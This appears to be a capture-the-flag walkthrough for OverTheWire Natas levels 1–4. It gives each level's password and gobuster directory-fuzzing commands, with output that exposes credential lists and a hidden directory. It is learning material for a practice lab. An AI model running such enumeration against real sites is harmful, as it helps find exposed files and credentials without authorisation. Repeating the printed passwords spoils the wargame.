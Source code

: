 # ⚡ Natas

## Level 1

Source :&#x20;

<--The password for natas1 is 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq-->

## Level 2

Developer tool : < --The password for natas2 is TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI -->

## Level 3

Fuzzing con gobuster:

```shell
gobuster dir -u http://natas2.natas.labs.overthewire.org/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -U natas2 -P TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
```

Output:

```bash
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

## Level 4

Fuzzing gobuster:

```shell
gobuster dir -u http://natas3.natas.labs.overthewire.org/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -U natas3 -P 3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH -x txt,php,html
```

Output:

```python
robots.txt

User-agent: *
Disallow: /s3cr3t/

http://natas3.natas.labs.overthewire.org/s3cr3t/
user.txt
natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
```
